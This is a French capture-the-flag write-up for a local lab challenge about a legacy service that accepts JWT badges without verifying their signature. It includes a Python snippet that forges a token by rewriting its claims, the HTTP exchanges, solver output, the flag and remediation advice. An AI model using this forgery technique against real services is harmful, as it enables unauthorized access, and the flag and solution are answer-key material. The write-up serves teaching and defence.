



# PHANTOM BADGE — Write-up

**Campagne :** VANTA//SYSTEMS — Noctis-9 · **Mission 02/05**
**Catégorie :** Web / JWT / Broken Authentication
**Flag :** `FPS{phantom_v1_trust_boundary}`

> Ce write-up décrit le parcours effectivement reproduit par requêtes HTTP contre
> l'instance locale (`http://127.0.0.1:8081`). Aucune réponse n'est inventée ; les
> extraits proviennent des réponses réelles du serveur.

## Résumé organisateur — Résolution rapide

- **Prérequis :** avoir résolu GHOST RECORD. Compte sous-traitant fourni : `contractor.073` / `PHANTOM-073-2147`.
- **Point de départ :** `/login`, puis comparer le **Terminal CIPHER** (`/api/legacy/cipher/access`) et **Identité VANTA** (`/api/identity/me`).
- **Actions décisives :**
  1. Récupérer le badge JWT de session (`GET /api/session/badge`).
  2. Constater que le badge légitime (`FIELD_SUPPORT / TECH-0`) est refusé 403 par le terminal CIPHER (TECH-2 requis).
  3. Réécrire les claims (`division=CIPHER`, `clearance=TECH-2`) **en conservant le segment de signature d'origine** (donc invalide).
  4. Présenter ce badge au **terminal legacy** : refusé par v2 (signature invalide), accepté par CIPHER v1 qui ne revérifie pas la signature.
- **Emplacement du flag :** réponse 200 du dossier CIPHER (`proof_id`).
- **Blocages fréquents :** tenter de brute-forcer ou recalculer la signature ; viser le canal moderne v2 (qui vérifie) au lieu du terminal legacy ; ne pas distinguer les deux terminaux.
- **Détail complet :** sections ci-dessous.

## 1. Contexte narratif

Le joueur est un runner du collectif **STATIC**. Il dispose d'un compte sous-traitant
(`contractor.073` / `PHANTOM-073-2147`) sur le portail d'identités professionnelles
**PHANTOM** de VANTA Systems. Son badge `FIELD_SUPPORT / TECH-0` ne lui ouvre pas les
archives du département **CIPHER**, où dort un dossier d'incident lié à la sous-traitante
**MIRA-07**. Objectif : récupérer l'identifiant de preuve du dossier confidentiel.

## 2. Reconnaissance du portail

Après connexion sur `/login` (formulaire protégé par un jeton CSRF lié à la session),
le dashboard expose quatre espaces : **Vue d'ensemble**, **Identité VANTA**,
**Terminal CIPHER** et **Support technique**. Le badge affiché est
`contractor-073 · FIELD_SUPPORT / TECH-0`, état `ACTIVE`.



Deux fonctionnalités manipulent le badge :

- **Identité VANTA** → `GET /api/identity/me` (service moderne, « PHANTOM v2 ») ;
- **Terminal CIPHER** → `GET /api/legacy/cipher/access` (compatibilité « PHANTOM v1 »).

## 3. Récupération du JWT

Le portail ne propose aucun bouton « copier le token ». En observant le trafic
(Burp, ou les DevTools réseau), on constate que chaque clic déclenche d'abord :

```http
GET /api/session/badge
Cookie: phantom_session=...
```

```json
{"badge": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJjb250cmFjdG9yLTA3MyIs...<sig>"}
```

Le navigateur rejoue ensuite l'appel métier avec l'en-tête
`Authorization: Bearer <badge>`. Le JWT est donc naturellement observable.

## 4. Analyse des claims

En décodant les deux premiers segments (Base64url, **encodé et non chiffré**) :

```json
{"alg": "HS256", "typ": "JWT"}
{
  "sub": "contractor-073", "division": "FIELD_SUPPORT", "clearance": "TECH-0",
  "iss": "vanta-phantom", "aud": "vanta-services", "iat": 1791743254, "exp": 1791746854
}
```

Comportement du badge légitime :

| Requête | Résultat |
|---|---|
| `GET /api/identity/me` | `200` — `{"status":"ACTIVE","division":"FIELD_SUPPORT","clearance":"TECH-0",...}` |
| `GET /api/legacy/cipher/access` | `403` — `{"status":"ACCESS_DENIED","badge_presented":"FIELD_SUPPORT / TECH-0","access_policy":"CIPHER / TECH-2 minimum","policy_id":"CIPHER-SEC"}` |

Le diagnostic `403` indique explicitement la cible à atteindre : **`CIPHER / TECH-2`**.

## 5. Découverte de la note de migration

Le **Support technique** contient trois notes. La pertinente est
**`KB-PHANTOM-017 — Migration PHANTOM v1 → v2`** :

> Les services PHANTOM v2 assurent localement la validation cryptographique des badges
> présentés. Les terminaux de première génération ont été conçus pour fonctionner derrière
> **GATEKEEPER**, responsable de l'authentification et de la validation des credentials.
> […] le canal de compatibilité historique reste disponible pendant la migration du parc
> CIPHER. **Statut de migration : PARTIAL — Compatibilité v1 maintenue.**

La note n'énonce jamais la faille : elle décrit un **modèle de confiance**. Les terminaux
v1 présument que la signature a *déjà* été validée en amont.

## 6. Identification de la rupture de confiance

Hypothèse : le terminal legacy, conçu derrière GATEKEEPER, **ne revérifie pas la signature**
du badge qu'on lui présente directement, alors que PHANTOM v2 le fait. Un JWT est
`header.payload.signature` ; modifier le payload invalide la signature HS256 — ce qui
n'arrête que les composants qui la vérifient réellement.

## 7. Falsification du JWT

On conserve le header et **le segment de signature d'origine**, et on réécrit le payload :

```python
import base64, json
def b64u_dec(s): return base64.urlsafe_b64decode(s + "=" * (-len(s) % 4))
def b64u_enc(b): return base64.urlsafe_b64encode(b).rstrip(b"=").decode()

header, payload, sig = badge.split(".")
claims = json.loads(b64u_dec(payload))
claims["division"], claims["clearance"] = "CIPHER", "TECH-2"
forged = header + "." + b64u_enc(json.dumps(claims, separators=(",", ":")).encode()) + "." + sig
```

Aucune clé n'est connue, aucune signature n'est recalculée, aucun brute force : la
signature est **volontairement laissée invalide**.

## 8. Comparaison entre les deux services (le même token falsifié)

```http
GET /api/identity/me            Authorization: Bearer <forged>
-> 401 {"status":"TOKEN_REJECTED","reason":"INVALID_BADGE_SIGNATURE"}

GET /api/legacy/cipher/access   Authorization: Bearer <forged>
-> 200 {"status":"ACCESS_GRANTED", ...}
```

Le **même** badge est refusé par PHANTOM v2 (signature invalide) et accepté par CIPHER v1.
Ce n'est pas une faiblesse de HS256 : c'est une **frontière de confiance rompue** entre un
service qui vérifie et un terminal qui fait confiance.

## 9. Accès au rapport CIPHER

Le terminal CIPHER exige une habilitation `TECH-2` et refuse le badge d'origine tant
qu'aucune présentation valide n'est acceptée :



La réponse `200` du terminal legacy contient le dossier `SEC-2147-089` :

```json
{
  "status": "ACCESS_GRANTED",
  "badge_presented": "CIPHER / TECH-2",
  "access_policy": "CIPHER / TECH-2 minimum",
  "policy_id": "CIPHER-SEC",
  "report": {
    "id": "SEC-2147-089",
    "declarant": "MIRA-07 / EID-1057",
    "assignment": "EIDOLON Data Integrity — sous-traitance",
    "events": [ /* 14/10 signalement, 15/10 NG-R, 16/10 SIL-4/2147-07 */ ],
    "proof_id": "FPS{phantom_v1_trust_boundary}"
  }
}
```

Dans l'interface, le badge forgé `TECH-2` obtient l'habilitation et ouvre le dossier
d'incident confidentiel (flag masqué sur la capture) :



## 10. Récupération du flag

```
FPS{phantom_v1_trust_boundary}
```

Reproductible automatiquement :

```console
$ python3 solution/solve.py --url http://127.0.0.1:8081
[*] Legitimate badge: contractor-073 · FIELD_SUPPORT / TECH-0
[*] Legit badge on PHANTOM v2  /api/identity/me        -> 200 (expect 200)
[*] Legit badge on CIPHER v1   /api/legacy/cipher/access -> 403 (CIPHER / TECH-2 minimum) (expect 403)
[*] Forged badge on PHANTOM v2 /api/identity/me        -> 401 (INVALID_BADGE_SIGNATURE) (expect 401)
[*] Forged badge on CIPHER v1  /api/legacy/cipher/access -> 200 (ACCESS_GRANTED) (expect 200)
[+] FLAG: FPS{phantom_v1_trust_boundary}
```

## 11. Cause racine

Le terminal legacy (`decode_legacy_badge`) valide la **syntaxe** du JWT (header `alg=HS256`,
segments Base64url canoniques, signature de 32 octets), **tous les claims** (`sub`, `iss`,
`aud`, types, `iat`/`exp`, cohérence avec la session) et l'habilitation
(`division == "CIPHER"` et `clearance == "TECH-2"`), mais **n'authentifie jamais
cryptographiquement la signature**. Il délègue implicitement cette garantie à une passerelle
(GATEKEEPER) qui n'est pas sur le chemin lorsqu'on présente le badge en direct. L'autorisation
repose donc sur des claims **non authentifiés**, contrôlables par le client.

## 12. Correctif de sécurité recommandé (production)

- **Vérifier la signature** de tout JWT sur chaque service qui prend une décision
  d'autorisation — ne jamais présumer qu'un composant amont l'a fait (zero trust entre
  services). Côté PyJWT : `jwt.decode(token, key, algorithms=["HS256"])` avec un algorithme
  **fixé explicitement** (jamais `verify_signature=False` pour une décision de sécurité).
- **Fixer l'algorithme** et refuser `none` / toute famille inattendue.
- **Contrôler** `iss`, `aud`, `exp`, `iat`/`nbf` et lier le `sub` à la session authentifiée.
- Décider l'autorisation **côté serveur** sur des claims authentifiés ; ne jamais exposer un
  « canal de compatibilité » qui court-circuite la validation. Si une passerelle valide les
  badges, la rendre **obligatoire** sur le chemin réseau (mTLS/jeton signé interne), pas
  optionnelle.
